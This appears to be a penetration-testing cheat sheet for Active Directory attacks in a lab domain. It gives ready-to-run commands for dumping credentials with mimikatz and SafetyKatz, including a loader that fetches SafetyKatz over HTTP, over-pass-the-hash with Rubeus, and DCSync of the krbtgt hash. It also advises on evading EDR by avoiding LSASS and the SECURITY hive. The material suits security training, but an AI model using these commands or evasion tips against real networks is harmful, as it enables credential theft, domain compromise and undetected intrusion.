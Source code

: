 ### mimikatz
mimikatz can be used to extract credentials, tickets, replay credentials,
play with AD security and more.

Dump credentials
```powershell
mimikatz.exe -Command '"sekurlsa::ekeys"'
```

Using SafetyKatz (Minidump of lsass and PELoader to run mimikatz)
```powershell
Loader.exe -path C:\Users\Public\SafetyKatz.exe "sekurlsa::ekeys"
Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit
```

### OverPass-The-Hash
Over Pass the hash (OPTH) generate tokens from hashes or keys - Kerberos only

> [!NOTE] **NOTE**
> Difference between `PTH` and `OPTH` is PTH` `uses local users and `OPTH` uses a domain users credentials to generate tickets and run processes in their context

Over Pass the hash (OPTH) generate tokens from hashes or keys. Needs
elevation 
```powershell
Loader.exe SafetyKatz.exe "sekurlsa::pth /user:administrator /domain: dollarcorp.moneycorp.local/aes256:<aes256keys> /run:cmd.exe" "exit"
```

The above commands starts a process with a logon type 9 (same as runas
/netonly). This means that if you run a `whoami` it will still show as the low priv user, but when you access domain resources it will use the domain administrator credentials.

Rubeus (does not need elevation) - this overwrites your current tickets
```powershell
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```

Elevation required to create a new process
```powershell
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### DCSync
To extract credentials from the DC without code execution on it, we can
use DCSync

To use the DCSync feature for getting `krbtgt` hash execute the below
command with DA privileges for dcorp domain:
```powershell
Loader.exe SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```


Local Security Authority (`LSA`) is responsible for authentication on a Windows
machine. Local Security Authority Subsystem Service (`LSASS`) is its service.

`LSASS` stores credentials in multiple forms - NT hash, AES, Kerberos tickets and
so on.
- Credentials are stored by `LSASS` when a user:
- Logs on to a local session or RDP
- Uses RunAs
- Run a Windows service
- Runs a scheduled task or batch job
- Uses a Remote Administration tool

The `LSASS` process is therefore a very attractive target. It is also the most monitored process on a Windows machine.

**DONT TOUCH LSASS IF YOURE WORRIED ABOUT GETTING DETECTED**

Some of the credentials that can be extracted without touching `LSASS`.
- SAM hive (Registry) - Local credentials
-  `LSA` Secrets/SECURITY hive (Registry) - Service account passwords, Domain cached credentials etc. **NOT EVERY EDR WATCHES THE SECURITY HIVE**
- PowerShell console history
- DPAPI Protected Credentials (Disk) - Credentials Manager/Vault, Browser Cookies, Certificates, Azure Tokens etc.